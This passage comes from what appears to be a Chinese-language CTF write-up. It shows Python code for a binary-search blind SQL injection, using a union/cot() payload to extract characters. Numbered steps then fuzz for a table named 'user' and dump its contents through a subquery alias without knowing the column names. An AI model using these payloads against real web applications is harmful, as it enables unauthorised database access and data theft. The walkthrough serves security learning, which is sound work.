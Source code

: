 ```
        low = 0
        high = 126
        # print(standard_html)
        while low <= high:
            mid = (low + high) / 2
            mid_num_payload = "' union select cot(1 and (%s) > %d);#" % (payload, mid)
            # print(mid_num_payload)
            # print(mid_html)
            if http_get(url, mid_num_payload):
                low = mid + 1
            else:
                high = mid - 1
        mid_num = int((low + high + 1) / 2)
        return mid_num


    if __name__ == '__main__':
        main()
```

8、不断 fuzz，当 长度不为 0 时就是找到表了。

[![](https://www.zhaoj.in/wp-content/uploads/2019/04/155577545209ac8a24e2057945a3fd23926819caab-1024x486.png)](https://www.zhaoj.in/wp-content/uploads/2019/04/155577545209ac8a24e2057945a3fd23926819caab.png)

0，没找到或没数据

[![](https://www.zhaoj.in/wp-content/uploads/2019/04/1555775487f4d3e0156c75efb90d18855acddc795b-1024x626.png)](https://www.zhaoj.in/wp-content/uploads/2019/04/1555775487f4d3e0156c75efb90d18855acddc795b.png)

1，找到了

9、找到表名为 user，知道表名，不知道列名，那就改下函数，如下面这样整，给表设别名。
```
    # 获取数据库
    def get_all_databases(url):
        db_nums_payload = "select length(group_concat(a.1)) from (select 1, 2 union select * from user)a"
        db_numbers = half(url, db_nums_payload)
        print("长度为：%d" % db_numbers)

        db_payload = "select group_concat(a.1) from (select 1, 2 union select * from user)a"
        db_name = ""
        for y in range(1, db_numbers + 1):
            db_name_payload = "ascii(substr((" + db_payload + "),%d,1))" % (
                y)
            db_name += chr(half(url, db_name_payload))

        print("值：" + db_name)
```
![](https://www.zhaoj.in/wp-content/uploads/2019/04/15557758642ae55ba830733a953be12d6503b92dd1-1024x392.png)
